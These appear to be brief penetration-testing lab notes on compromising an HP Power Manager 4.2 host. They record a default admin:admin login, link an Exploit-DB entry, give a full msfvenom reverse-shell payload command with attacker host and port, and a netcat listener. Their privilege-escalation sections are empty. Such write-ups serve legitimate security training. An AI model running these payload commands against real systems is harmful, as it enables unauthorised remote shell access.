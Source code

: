 #Pwned! 
```IP
192.168.168.45
```

# Enumeration

## HTTP 80
admin:admin
we are in
HP Power Manager 4.2 (Build 7)
# Exploitation
https://www.exploit-db.com/exploits/10099
```
msfvenom -p windows/shell_reverse_tcp -f exe --platform windows -a x86 -e x86/alpha_mixed -f c -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" LHOST=192.168.45.237 LPORT=443
```
```
nc -lvp 443
```

# PrivEsc

## Manual

## Automated

### Peass
### Mimikatz

